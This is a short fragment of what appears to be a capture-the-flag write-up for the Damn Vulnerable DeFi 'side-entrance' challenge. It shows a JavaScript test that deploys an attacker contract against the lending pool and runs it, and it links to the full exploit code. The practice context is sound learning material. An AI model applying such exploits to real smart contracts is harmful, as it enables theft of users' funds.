 `side-entrance.challenge.js`:

```javascript


    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const attack = await(await ethers.getContractFactory('AttackSideEntrance', attacker)).deploy(this.pool.address);
        
        await attack.connect(attacker).run(attacker.address);

    });
```

You can find the complete code [here](https://github.com/dellalibera/damn-vulnerable-defi-solutions/blob/master/test/side-entrance/side-entrance.challenge.js) and [here](https://github.com/dellalibera/damn-vulnerable-defi-solutions/blob/master/contracts/attacker-contracts/AttackSideEntrance.sol).


